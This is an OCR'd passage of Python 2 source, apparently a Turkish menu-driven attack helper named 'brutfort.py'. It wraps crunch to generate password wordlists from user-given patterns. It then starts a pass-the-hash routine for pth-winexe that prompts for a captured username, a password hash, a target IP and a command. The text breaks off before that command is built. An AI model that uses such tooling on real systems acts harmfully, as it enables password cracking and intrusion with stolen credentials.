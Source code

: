 
	elif crunch_process ==4 :
		print color.YELLOW + "\nBu yöntem ile kendi belirleyeceğiniz formatlarda özel bir sözlük oluşturulur.\n" + color.END
		pass_num = input(color.BLUE + "Parola uzunluğunu giriniz  : " + color.END)
		specifics_char=["@",",","%","^"]		
		specifics=["Küçük harfli karakterleri yazdırmak için","Büyük harfli karakterleri yazdırmak için","Rakam kullanmak için","Özel karakterleri yazdırmak için"]
		i=0
		print ""	
		while i<5:
			print "\t",color.RED + specifics_char[i] + color.END, " : ", specifics[i]
			i+=1
			if i==4:
				break
		print ""
		i=0
		special_pass=[]
		while i<pass_num:
			special_pass.append(raw_input(color.BLUE + "%d. karakteri giriniz       : "%(i+1) + color.END))
			i+=1
		output    = raw_input(color.BLUE + "\nOluşturulacak dosyanın kaydedileceği dosya uzantısını giriniz(Ör:/root/Desktop/wordlistoutput.txt) : " + color.END)
		crunch= "crunch %s %s -t %s -o %s" %(pass_num,pass_num,string.join(special_pass,""),output)
		print color.RED + """\n	******************************************************************
	*  crunch %s %s -t %s -o %s
	******************************************************************
	"""%(pass_num,pass_num,string.join(special_pass,""),output) + color.END 
		os.system(crunch) 

	elif crunch_process == 99:
		os.system("python brutfort.py")


	else :
		print color.RED + "\nYanlış seçim yaptınız. Lütfen, kontrol edip tekrar deneyiniz." + color.END
		time.sleep(3)
		os.system("python brutfort.py")

####################### crunch ############################	


####################### PTHWinexe ############################
def pthwinexe():
	print color.YELLOW + "\nPass-the-hash(pth-winexe), önceden ele geçirilmiş olan ve açık parola yerine parolanın özetini kullanarak sistemlere bağlanılmasını sağlar.\n" + color.END	
	
	user_name = raw_input(color.BLUE + "Ele geçirilen kullanıcı adını giriniz(Ör:Administrator...) : " + color.END)
	pass_hash = raw_input(color.BLUE + "Ele geçirilen parola hash'ini giriniz                      : " + color.END)
	ip_address= raw_input(color.BLUE + "IP adresini giriniz                                        : " + color.END)
	command   = raw_input(color.BLUE + "Sistemde kullanılmak üzere olan komutu giriniz(Ör:cmd.exe) : " + color.END)

